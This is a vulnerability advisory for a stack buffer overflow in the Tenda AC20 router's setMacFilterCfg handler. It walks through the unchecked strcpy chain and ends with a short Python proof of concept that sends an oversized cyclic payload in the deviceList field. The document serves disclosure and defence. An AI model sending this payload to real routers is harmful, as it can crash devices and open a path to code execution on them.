



# Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) setMacFilterCfg

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_46A2AC` function, which processes the `deviceList` input with unsafe string operations lacking bounds checking, enabling stack corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/setMacFilterCfg`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `deviceList` parameter in the `formSetMacFilterCfg` function. The call chain and key operations are as follows:


1.  **Parameter Retrieval**: The `deviceList` parameter is retrieved via `websGetVar` in `formSetMacFilterCfg` and passed to `sub_46A2AC` for rule processing.

2.  **Rule Parsing**: `sub_46A2AC` splits `deviceList` by newline characters (`\n`) and iterates over each entry, passing them to `sub_46A8F8` for individual rule handling.

3.  **Data Extraction**: `sub_46A8F8` calls `sub_46BC10` to parse each entry. `sub_46BC10` uses `strchr` to split the entry by carriage return (`\r`), separating it into a "name" part (before `\r`) and a "MAC address" part (after `\r`).

4.  **Unsafe Copy**: Critical unsafe operations occur in `sub_46BC10`:

*   `strcpy(a2 + 32, a1)`: Copies the "name" part (user-controlled) into a 32-byte offset of a fixed-size stack buffer (`v5` in `sub_46A8F8`, size 160 bytes).

*   `strcpy(a2, v4)`: Copies the "MAC address" part (user-controlled) into the start of the same buffer.

Neither `strcpy` call validates the length of the input against the buffer size. If the "name" or "MAC address" parts exceed the remaining buffer space, they overflow the stack buffer, overwriting adjacent memory (including return addresses, saved registers, and other critical stack data).





## PoC: Python Exploit Script


```
from pwn import \*
import requests
payload = cyclic(1000)
url = "http://192.168.31.149/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```

